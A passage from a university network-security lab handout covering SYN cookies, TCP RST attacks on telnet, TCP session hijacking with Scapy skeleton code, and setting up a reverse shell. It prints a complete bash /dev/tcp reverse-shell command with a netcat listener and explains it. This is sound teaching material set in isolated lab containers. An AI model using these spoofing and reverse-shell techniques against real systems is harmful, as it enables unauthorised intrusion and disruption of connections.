\subsection{Task 1.3: Enable the SYN Cookie Countermeasure}

Please enable the SYN cookie mechanism, and 
run your attacks again, and compare the results. 



% *******************************************
% SECTION
% *******************************************
\section {Task 2: TCP RST Attacks on \texttt{telnet} Connections}

The TCP RST Attack can terminate an established TCP connection between
two victims. For example, if there is an established \telnet connection (TCP)
between two users A and B, attackers can spoof a RST packet from A to B,
breaking this existing connection. To succeed in this attack, attackers
need to correctly construct the TCP RST packet. 

In this task, you need to launch a TCP RST attack from the VM 
to break an existing \telnet connection between A and B, which are 
containers.  To simplify the lab,
we assume that the attacker and the victim are on the same LAN,
i.e., the attacker can observe the TCP traffic between
A and B.


\paragraph{Launching the attack manually.} 
Please use Scapy to conduct the TCP RST attack. 
A skeleton code is provided in the following. You need to replace each
\texttt{@@@@} with an actual value (you can get them using Wireshark):  


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="R", seq=@@@@)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
\end{lstlisting}

\paragraph{Optional: Launching the attack automatically.} 
Students are encouraged to write a program to launch the 
attack automatically using the sniffing-and-spoofing technique. 
Unlike the manual approach, we get all the parameters
from sniffed packets, so the entire attack is automated.  
Please make sure that when you 
use Scapy's \texttt{sniff} function, don't forget to 
set the \texttt{iface} argument.  

 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{comment}
% We comment out  this task, because it does not work any more.
% It seems that the video streaming client will reconnect to the server
% if the connection is broken. We haven't figured out a solution yet.
%
% My fugure plan:
%    I would like to use container to host our own streeming service.
%    Then we can launch the RST attack on the server. 
%    

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 3: TCP RST Attacks on Video Streaming Applications}

Let us make the TCP RST attack more interesting by experimenting it on 
the applications that are widely used in nowadays.
We choose the video streaming application in 
this task. For this task, you can choose a video streaming web site that you 
are familiar with (we will not name any specific web site here).  Most of
video sharing websites establish a TCP connection with the client for 
streaming the video content. The attacker's goal is to disrupt the TCP session 
established between the victim and video streaming machine. To 
simplify the lab, we assume that the attacker and the victim are on the 
same LAN. In the following, we describe the common interaction between
a user (the victim) and some video-streaming web site:

\begin{itemize}
\item The victim browses for a video content in the video-streaming web 
site, and selects one of the videos for streaming. 

\item Normally video contents are hosted by a different machine,
where all the video contents are located. After the victim selects 
a video, a TCP session will be established between the victim 
machine and the content server for the video streaming.
The victim can then view the video he/she has selected.
\end{itemize}

Your task is to disrupt the video streaming by breaking the 
TCP connection between the victim and the content server.
You can let the victim user browse the video-streaming 
site from another (virtual) machine or from the same (virtual) machine
as the attacker. Please be noted that, to avoid liability issues,
any attacking packets should be targeted 
at the victim machine (which is the machine run by yourself), 
not at the content server machine (which does not belong to you).

\end{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

            


% *******************************************
% SECTION
% *******************************************
\section{Task 3: TCP Session Hijacking}



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\tcpFigs/TCP_Session_Hijacking.pdf}
  \end{center}
  \caption{TCP Session Hijacking Attack}
  \label{tcp:fig:hijacking}
\end{figure}
 
   
The objective of the TCP Session Hijacking attack is to hijack an 
existing TCP connection (session) between two victims by injecting malicious contents
into this session. If this connection is a \telnet session, attackers
can inject malicious commands (e.g. deleting an important file) 
into this session, causing the victims 
to execute the malicious commands. 
Figure~\ref{tcp:fig:hijacking} depicts how the attack works.
In this task, you need to demonstrate how you can hijack a 
\texttt{telnet} session between two computers. Your goal is to get the
\texttt{telnet} server to run a malicious command from you.
For the simplicity of the task, we assume that 
the attacker and the victim are on the same LAN.


\paragraph{Launching the attack manually.}
Please use Scapy to conduct the TCP Session Hijacking attack.
A skeleton code is provided in the following. You need to replace each
\texttt{@@@@} with an actual value; you can use Wireshark to figure out what value you 
should put into each field of the spoofed TCP packets. 


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="A", seq=@@@@, ack=@@@@)
data = "@@@@"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
\end{lstlisting}


\paragraph{Optional: Launching the attack automatically.}
Students are encouraged to write a program to launch the
attack automatically using the sniffing-and-spoofing technique.
Unlike the manual approach, we get all the parameters
from sniffed packets, so the entire attack is automated.
Please make sure that when you
use Scapy's \texttt{sniff} function, don't forget to
set the \texttt{iface} argument.





% *******************************************
% SECTION
% *******************************************
\section{Task 4: Creating Reverse Shell using TCP Session Hijacking}

When attackers are able to inject a command to the victim's machine using
TCP session hijacking, they are not interested in running one simple
command on the victim machine; they are interested in running many
commands. Obviously, running these commands all through TCP session
hijacking is inconvenient. What attackers want to achieve is to use the
attack to set up a back door, so they can use this
back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the
victim machine to give the attack the shell access to the victim machine.
Reverse shell is a shell process running on a remote machine, connecting
back to the attacker's machine. This gives an attacker a convenient way to
access a remote machine once it has been compromised. 


In the following, we will show how we can set up a reverse shell if we can
directly run a command on the victim machine (i.e. the server machine). 
In the TCP session hijacking attack, attackers cannot directly run a
command on the victim machine, so their jobs is to run a reverse-shell
command through the session hijacking attack. 
In this task, students need to demonstrate that they can achieve this goal.


To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In the following demo, we show two windows, each one is from a 
different machine. The top window is the attack machine \texttt{10.9.0.1},  
which runs \texttt{netcat}~(\texttt{nc} for short), listening on port \texttt{9090}. 
The bottom window is the victim machine \texttt{10.9.0.5}, and 
we type the reverse shell command.
As soon as the reverse shell gets executed, the top window indicates 
that we get a shell. This is a reverse shell, i.e., it runs on \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

In the demo shown above, when the \texttt{bash}
shell command is executed on \texttt{10.9.0.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.9.0.1}. This is confirmed via the \texttt{"Connection received on 10.9.0.5"}
message displayed by \texttt{netcat}.


The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. 




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% ******************************************* 
\section*{Acknowledgment}

I would like to thank CSender (GitHub ID), Eric Dong, and Chao Gong,
for their suggestions on improving the SYN flooding attack
task in this lab. 


\end{document}
